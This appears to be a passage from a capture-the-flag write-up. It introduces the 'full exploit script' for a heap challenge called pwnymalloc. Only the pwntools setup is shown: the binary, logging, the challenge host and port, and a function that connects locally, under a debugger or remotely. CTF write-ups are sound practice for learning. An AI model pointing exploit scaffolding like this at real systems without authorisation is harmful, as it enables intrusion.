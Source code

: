 <figure><img src="../../.gitbook/assets/image (45).png" alt="" width="563"><figcaption></figcaption></figure>

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
# libc = './libc.so.6'
# libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = 'pwnymalloc.chal.uiuc.tf', 1337

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port, ssl=True)
    else:
        return process([exe] + argv)

```